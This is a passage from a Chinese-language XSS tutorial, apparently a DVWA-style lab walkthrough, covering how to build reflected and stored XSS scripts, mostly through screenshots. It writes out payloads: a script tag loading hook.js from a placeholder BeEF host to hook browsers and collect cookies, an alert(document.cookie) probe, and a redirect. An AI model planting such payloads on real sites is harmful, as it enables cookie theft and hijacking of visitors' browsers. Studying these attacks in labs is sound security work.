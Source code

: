 一般是针对评论的，只要把这种携带恶意代码的脚本成功放到网页上，只要有用户访问该网页就会中招（效果和上一种相同！）

![7.3](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210907211852.png)

### 5.3、构造XSS脚本

#### 1、常用HTML标签

![8-1](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908213926.png)

#### 2、常用JavaScript

![8-2](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908214003.png)

#### 3、构造XSS脚本

![8-3](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908214031.png)

![8-4](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908214517.png)

![8-5](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908214531.png)

==主要用到这两条命令==

```html
<script src="http://BeEF_IP:3000/hook.js"></script> #结合BeEF收集用户的 cookie 巧用图片标签
<img src="http://BeEF_IP:3000/hook.js"></img>
```

#### 4、反射型XSS（XSS reflected）

##### 4.1、安全级别

低安全级别

![8-6](https://fafa-blog-img.oss-cn-beijing.aliyuncs.com/images/img/20210908214856.png)

可以直接发送代码段（XSS reilected 和 XSS stored都行）

```html
<!--弹框警告：-->
<script>alert('yangge')</script>
<script>alert(document.cookie)</script>
<!--页面重定向：-->
<script>location.href="http://www.baidu.com"</script>
```





#### 5、存储型XSS（XSS stored）

存储型XSS（持久型XSS）即攻击者将带有XSS攻击的链接放在网页的某个页面，例如评论框等；
用户访问此XSS链接并执行，由于存储型XSS能够攻击所有访问此页面的用户，所以危害非常大。
